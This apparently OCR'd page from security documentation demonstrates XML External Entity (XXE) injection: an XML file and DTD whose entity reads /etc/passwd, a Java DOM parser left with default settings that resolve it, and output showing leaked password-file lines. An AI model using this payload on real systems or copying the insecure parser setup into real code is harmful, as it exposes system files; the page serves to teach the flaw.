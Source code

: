 <contacts>
 <contact>
  <firstname>John</firstname>
  <lastname>&xxe;</lastname>
 </contact>
</contacts>

Sample DTD:
<!ELEMENT contacts (contact*)>
<!ELEMENT contact (firstname,lastname)>
<!ELEMENT firstname (#PCDATA)>
<!ELEMENT lastname ANY>
<!ENTITY xxe SYSTEM "/etc/passwd">

###### XXE using DOM¶
import java.io.IOException;
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.ParserConfigurationException;
import org.xml.sax.InputSource;
import org.w3c.dom.Document;
import org.w3c.dom.Element;
import org.w3c.dom.Node;
import org.w3c.dom.NodeList;

public class parseDocument {
 public static void main(String[] args) {
  try {
   DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
   DocumentBuilder builder = factory.newDocumentBuilder();
   Document doc = builder.parse(new InputSource("contacts.xml"));
   NodeList nodeList = doc.getElementsByTagName("contact");
   for (int s = 0; s < nodeList.getLength(); s++) {
     Node firstNode = nodeList.item(s);
     if (firstNode.getNodeType() == Node.ELEMENT_NODE) {
       Element firstElement = (Element) firstNode;
       NodeList firstNameElementList = firstElement.getElementsByTagName("firstname");
       Element firstNameElement = (Element) firstNameElementList.item(0);
       NodeList firstName = firstNameElement.getChildNodes();
       System.out.println("First Name: "  + ((Node) firstName.item(0)).getNodeValue());
       NodeList lastNameElementList = firstElement.getElementsByTagName("lastname");
       Element lastNameElement = (Element) lastNameElementList.item(0);
       NodeList lastName = lastNameElement.getChildNodes();
       System.out.println("Last Name: " + ((Node) lastName.item(0)).getNodeValue());
     }
    }
  } catch (Exception e) {
    e.printStackTrace();
  }
 }
}

The previous code produces the following output:
$ javac parseDocument.java ; java parseDocument
First Name: John
Last Name: ### User Database
...
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh
